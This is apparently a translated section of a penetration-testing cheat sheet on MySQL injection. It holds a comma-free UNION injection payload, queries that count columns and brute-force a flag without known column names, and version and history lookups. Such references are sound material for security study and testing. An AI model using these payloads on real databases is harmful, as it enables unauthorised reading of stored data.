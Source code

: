 ### 不使用逗号的MySQL注入

选择两列而不使用任何逗号（[https://security.stackexchange.com/questions/118332/how-make-sql-select-query-without-comma](https://security.stackexchange.com/questions/118332/how-make-sql-select-query-without-comma)）：
```
-1' union select * from (select 1)UT1 JOIN (SELECT table_name FROM mysql.innodb_table_stats)UT2 on 1=1#
```
### 没有列名的情况下检索值

如果你知道表的名称，但不知道表内的列名，你可以尝试执行以下操作来查找有多少列：
```bash
# When a True is returned, you have found the number of columns
select (select "", "") = (SELECT * from demo limit 1);     # 2columns
select (select "", "", "") < (SELECT * from demo limit 1); # 3columns
```
假设有2列（第一列是ID，第二列是标志），您可以尝试通过逐个字符尝试来暴力破解标志的内容：
```bash
# When True, you found the correct char and can start ruteforcing the next position
select (select 1, 'flaf') = (SELECT * from demo limit 1);
```
更多信息请参见[https://medium.com/@terjanq/blind-sql-injection-without-an-in-1e14ba1d4952](https://medium.com/@terjanq/blind-sql-injection-without-an-in-1e14ba1d4952)

### MySQL历史

您可以在MySQL中读取表**sys.x$statement\_analysis**来查看其他执行情况

### 版本替代方案
```
mysql> select @@innodb_version;
+------------------+
| @@innodb_version |
+------------------+
| 5.6.31           |
+------------------+

mysql> select @@version;
+-------------------------+
| @@version               |
+-------------------------+
| 5.6.31-0ubuntu0.15.10.1 |
+-------------------------+

mysql> mysql> select version();
+-------------------------+
| version()               |
+-------------------------+
| 5.6.31-0ubuntu0.15.10.1 |
+-------------------------+
```
<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>
